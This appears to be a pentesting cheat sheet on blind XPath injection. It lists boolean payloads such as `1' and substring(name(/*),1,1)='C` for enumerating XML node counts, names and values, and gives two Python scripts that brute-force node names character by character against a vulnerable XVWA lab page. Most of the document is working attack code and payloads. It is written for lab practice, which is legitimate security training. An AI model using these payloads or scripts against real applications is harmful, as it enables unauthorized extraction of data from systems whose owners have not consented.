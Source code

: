 # XPath Injection
- You could think in a **SQLI** using `1' or '1'='1`. But it is not -> Probe **SQLI** or **NoSQLI**, is a **XPath Injection**?
- See [XPathI-HackTricks](https://book.hacktricks.xyz/pentesting-web/xpath-injection).
- Find **XML labels**.
	- Find the number of **principal** label (like heading 1) `1' and count(/*)='n`, where `n` is the *number* of desired labels.
	- Find the name of **principal**(s) label(s) `1' and name(/*)='NAME`, where `NAME` is the whole *name* of that desired label.
	- Find the name's size of **principal**(s) label(s) `1' and string-length(name(/*))>'n`, where `n` is the name's size to find, also probe `=`.
		`substring(string, start, length)`
		Probe each *character* in the *name* with `1' and substring(name(/*),1,1)='C`, where `C` is the *character*.
		```python
		#!/usr/bin/python3
		
		from pwn import *
		import signal
		import sys
		import requests
		import time
		import string
		import pdb
		
		# function to manage CTRL+c
		def def_handler(sig, frame):
		    print("\n[!] Exiting...\n")
		    sys.exit(1)
		
		# function to a brute force to find the name of a XML label
		def xpath_cracker():
		    p1 = log.progress("Brute force")
		    p1.status("Starting brute force process")
		
		    time.sleep(2)
		    
		    p2 = log.progress("Label name")
		
		    # acumulator
		    label_name = ""
		    # iterate label's name size
		    for index in range(1, 8):
		        for character in characters:
		            post_data = {"search": "1' and substring(name(/*),%d,1)='%c" % (index, character), "submit": ""}
		            r = requests.post(main_url, headers=headers, data=post_data)
		            # invalid characters
		            if len(r.text) != 8678:
		                label_name += character
		                p2.status(label_name)
		                break
		
		    p1.success("Brute force process finished")
		    p2.success(label_name)
		
		# CTRL+c
		signal.signal(signal.SIGINT, def_handler)
		
		# global variables
		main_url = "http://192.168.200.135/xvwa/vulnerabilities/xpath/"
		headers = {"Content-Type": "application/x-www-form-urlencoded"}
		characters = string.ascii_letters
		
		if __name__ == "__main__":
		    xpath_cracker()
		```
	- Find the number of **secundary** labels (like heading 2) `1' and count(/*[1]/*)='n`, where `/*[1]` refers to the *principal* label and `n` is the *number* of desired labels, also probe `>`.
	- Find the content of every ending *label* with `1' and substring(/*[1]/*[2]/Price,1,5)='$5.00`, where *Price* is already found.
	- Aux **Python** script with generalization.
		```python
		#!/usr/bin/python3
		
		from pwn import *
		import signal
		import sys
		import requests
		import time
		import string
		import pdb
		
		# function to manage CTRL+c
		def def_handler(sig, frame):
		    print("\n[!] Exiting...\n")
		    sys.exit(1)
		
		# function to a brute force to find the name of a XML label
		def xpath_name_cracker(label_index, label_name_size):
		    # acumulator
		    label_name = ""
		    # iterate label's name size
		    for index in range(1, label_name_size + 1):
		        for character in characters:
		            post_data = {"search": "1' and substring(name(/*[1]/*[%d]),%d,1)='%c" % (label_index, index, character), "submit": ""}
		            r = requests.post(main_url, headers=headers, data=post_data)
		            # invalid characters
		            if len(r.text) not in undesired_responses:
		                label_name += character
		                break
		    return label_name
		
		# function to a brute force to find the name of a XML label
		def xpath_name_size_cracker(label_index):
		    for i in range(1, 20):
		        post_data = {"search": "1' and string-length(name(/*[1]/*[%d]))='%d" % (label_index, i), "submit": ""}
		        r = requests.post(main_url, headers=headers, data=post_data)
		        # invalid characters
		        if len(r.text) not in undesired_responses:
		            return i
		
		# function to obtain all names of labels
		def xpath_cracker():
		    p1 = log.progress("Brute force")
		    p1.status("Starting brute force process")
		
		    time.sleep(2)
		    
		    p2 = log.progress("Label names")
		
		    # acumulator
		    label_names = []
		    # iterate label's name size
		    for i in range(1, 11):
		        label_size = xpath_name_size_cracker(i)
		        label_name = xpath_name_cracker(i, label_size)
		        label_names.append(label_name)
		        p2.status(label_names)
		
		    p1.success("Brute force process finished")
		    p2.success(label_names)
		
		# CTRL+c
		signal.signal(signal.SIGINT, def_handler)
		
		# global variables
		main_url = "http://192.168.200.135/xvwa/vulnerabilities/xpath/"
		headers = {"Content-Type": "application/x-www-form-urlencoded"}
		characters = string.ascii_letters
		undesired_responses = [i for i in range(8680, 8691)]
		
		if __name__ == "__main__":
		    xpath_cracker()
		```